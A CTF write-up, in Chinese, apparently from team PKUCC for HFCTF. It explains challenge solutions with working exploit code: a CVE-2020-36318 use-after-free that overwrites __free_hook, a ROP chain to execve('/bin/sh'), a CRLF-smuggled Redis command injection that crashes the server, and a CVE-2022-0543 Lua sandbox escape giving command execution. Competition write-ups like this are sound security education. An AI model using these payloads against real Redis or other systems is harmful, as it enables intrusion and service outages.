# PKUCC HFCTF Writeup

## [PWN] vdq

维护了一个`VecDeque<Note>`，其中`struct Node { Option<usize> idx; Vec<u8> data; }`，支持Add（添加一个`Note`到最后，任意填充`data`）、Remove（删除开头的`Note`）、View（查看所有`Note`）、Append（在开头的`Note`里追加数据到`data`）、Archive（略，没有用到）。

还好代码没有strip，所以能在可接受的时间内看一遍反编译出的代码，没有意识到有任何高危（unsafe）的操作，似乎陷入了死局。

发现代码是用`rustc 1.48`编译的，查了一下正好有一个`VecDeque`的高危漏洞CVE-2020-36318，一个半官方的PoC能完美嵌入到下发的程序中（https://github.com/rust-lang/rust/issues/79808#issuecomment-740188680 ）。

利用Append操作进行漏洞利用，触发上述漏洞后，可以操作已经被释放的`Note`，控制输入数据的大小正好让该`Note`作为要被追加的数据（`Vec<u8>`）释放出来，这样可以任意填充该待被操作的`Note`。特别地，因为之前用View操作可以泄漏libc中的地址，直接填充`Note`中的`data`使其指向`__free_hook`，然后追加数据时就可以把`__free_hook`覆盖成`__libc_system`，再随便操作一番释放一块含有`cat flag`的内存即可。

```python
import sys

print('["Add", "Add", "Remove", "Remove", "Add", "Add", "Add", "View", "Remove", "Remove", "Remove", "View", "Append",')
print(' "Append", "Append"]')
print('$')

print('') # Add
print('') # Add
# Remove x 2

print('a' * 16)                     # Add
print('')                           # Add
print('b' * (1024 * 4 + 1))         # Add
sys.stdout.flush()
# View
# Remove x 3

leak = input() # View
leak = leak[0:16]
ptr = ''
for i in reversed(range(8)):
    ptr += leak[i * 2:i * 2 + 2]
ptr = int(ptr, 16)
sys.stderr.write(hex(ptr))

free_hook = ptr + 0x1c48        # __free_hook
libc_system = ptr - 0x39c880    # __libc_system
sys.stdout.buffer.write(
    (libc_system.to_bytes(16, 'little') +             # Option<usize> idx
        (free_hook - 0x1001).to_bytes(8, 'little') +  # ptr
        b'\x7f' * 7 +                                 # size
        b'\n'
    ))  # Append
sys.stdout.flush()

print("ls") # Append
sys.stdout.flush()

print("cat flag") # Append
sys.stdout.flush()
```

## [PWN] gogogo

代码strip过，不过可以使用脚本恢复（https://github.com/getCUJO/ThreatIntel/blob/master/Scripts/Ghidra/go_func.py ）。

这题目真的迷之坑点，首先看了`main.main`函数发现该函数非常简单，没有任何高危操作，完全不可能出现问题，研究了半个下午+一个晚上也没搞出所以然来。

第二天才发现原来还有个函数叫做`math.init`，这函数一眼看上去是个标准库函数（也可能是我对go不太熟），所以最开始怎么也没意识到真正的代码居然不在`main.xxxx`中。

找到真正的函数就好办了，首先玩一个简单的猜数游戏，会反馈猜对的个数和猜错位的个数，直接暴力做就可以。通关后可以启动另一个游戏，这个代码也看了有一会不过发现一点用都没有，直接退出这个游戏就能在函数结尾触发一个栈缓冲区溢出，而下发文件没有任何ASLR，也没开启stack canary检查，Go Runtime的gadget这么丰富，那么直接ROP到`execve("/bin/sh", ...)`就结束了。

```python
import random
import time

infp = open('in.fifo', 'w')
outfp = open('out.fifo', 'r')

outfp.readline()
outfp.readline()
infp.write('1416925456\n')
infp.flush()

outfp.readline()
outfp.readline()

possible_cases = list()
for i in range(10):
    for j in range(10):
        for k in range(10):
            for l in range(10):
                s = set([i, j, k, l])
                if len(s) != 4:
                    continue
                possible_cases.append((i, j, k, l))

def format_case(case):
    i, j, k, l = case
    return f'{i} {j} {k} {l}\n'

def compare_case(one, another):
    i, j, k, l = one
    p, q, m, n = another
    exact = (i == p) + (j == q) + (k == m) + (l == n)
    around = (i in [q, m, n]) + (j in [p, m, n]) + (k in [p, q, n]) + (l in [p, q, m])
    return f'{exact}A{around}B\n'

while True:
    case = random.choice(possible_cases)
    infp.write(format_case(case))
    infp.flush()

    result = outfp.readline()
    if result == 'YOU WIN\n':
        break
    possible_cases = list(filter(lambda c: compare_case(case, c) == result, possible_cases))
    assert len(possible_cases) != 0

outfp.readline()
infp.write('E\n')
infp.flush()

for _ in range(7):
    outfp.readline()
infp.write('4\n')
infp.flush()

"""
  437d38:       48 8b 7c 24 38          mov    0x38(%rsp),%rdi
  437d3d:       0f b6 74 24 1f          movzbl 0x1f(%rsp),%esi
  437d42:       48 8b 6c 24 70          mov    0x70(%rsp),%rbp
  437d47:       48 83 c4 78             add    $0x78,%rsp
  437d4b:       c3                      ret
"""

"""
  489457:       48 8b 54 24 40          mov    0x40(%rsp),%rdx
  48945c:       0f b6 42 20             movzbl 0x20(%rdx),%eax
  489460:       48 8b 6c 24 30          mov    0x30(%rsp),%rbp
  489465:       48 83 c4 38             add    $0x38,%rsp
  489469:       c3                      ret
"""

"""
  45c849:       0f 05                   syscall
  45c84b:       c3                      ret
"""

OFF = 0xa4000

outfp.readline()
infp.buffer.write(
        b'/bin/sh' +                                     # filename
        b'\x00' * (0x460 - 7 - 8) +                      # padding
        (59).to_bytes(8, 'little') +                     # %rax = SYS_execve
        (0x437d38).to_bytes(8, 'little') +               # ret
        b'\x00' * 0x38 +                                 # padding (%rsi = 0)
        (0xc000076b18 + OFF).to_bytes(8, 'little') +     # %rdi = "/bin/sh"
        b'\x00' * 0x38 +                                 # padding
        (0x489457).to_bytes(8, 'little') +               # ret
        b'\x00' * 0x38 +                                 # padding
        (0x45c849).to_bytes(8, 'little') +               # ret
        (0xc000076f50 + OFF).to_bytes(8, 'little') +     # %rdx = &{ NULL }
        b'\n'
    )
infp.flush()

outfp.readline()
# infp.write('ls -al\n')
infp.write('cat flag\n')
infp.flush()
infp.close()
```

## [Misc] Quest-Crash

首先提供的API里面用换行分隔就能执行多条命令，而且只有第一条会检查是否是允许的命令，因此可以执行任意Redis命令，包括EVAL，而EVAL可以运行任意Lua代码。在Lua代码里面构造一个非常大的字符串就能让Redis因为内存不足崩溃：
```json
{"query":"SET x\r\nEVAL \"return string.rep('test',200000000)\" 0"}
```
## [Misc] Quest-RCE

这个Lua环境里面没有os库，但是因为CVE-2022-0543还是能实现RCE：
```json
{"query":"SET x\r\neval 'local io_l = package.loadlib(\"/usr/lib/x86_64-linux-gnu/liblua5.1.so.0\", \"luaopen_io\"); local io = io_l(); local f = io.popen(\"<command>\", \"r\"); local res = f:read(\"*a\"); f:close(); return res' 0"}
```
flag的文件名是随机的，所以需要先ls -l /把flag的文件名找到再用cat读flag。

## [Re] fpbe

程序本身是一段解sha256哈希，是做不了的。但是在执行验证函数之前加载了一个bpf程序，通过找这个程序的地址可以发现就在题目的文件里嵌了一个ELF文件。把它提取出来，里面的bpf程序可以发现就是将我们输进去的flag做一个线性组合然后比较，联立这些线性方程组就可以解出flag。
